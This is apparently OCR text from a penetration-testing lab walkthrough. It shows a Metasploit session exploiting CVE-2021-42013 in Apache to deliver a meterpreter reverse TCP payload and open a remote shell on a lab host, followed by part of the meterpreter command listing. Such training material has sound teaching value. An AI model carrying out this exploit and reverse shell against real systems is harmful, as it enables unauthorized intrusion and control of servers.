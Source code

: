 ```hlt:1
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_tcp command payload
[*] Meterpreter session 4 opened (192.168.119.4:4444 -> 192.168.50.16:35538) at 2022-08-08 05:20:20 -0400
[!] This exploit may require manual cleanup of '/tmp/GfRglhc' on the target
```

On meterpreter command prompt - list commands

```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    ...
    channel                   Displays information or control active channels
    close                     Closes a channel
    ...
    info                      Displays information about a Post module
    ...
    load                      Load one or more meterpreter extensions
    ...
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    ...

...

Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as O
```
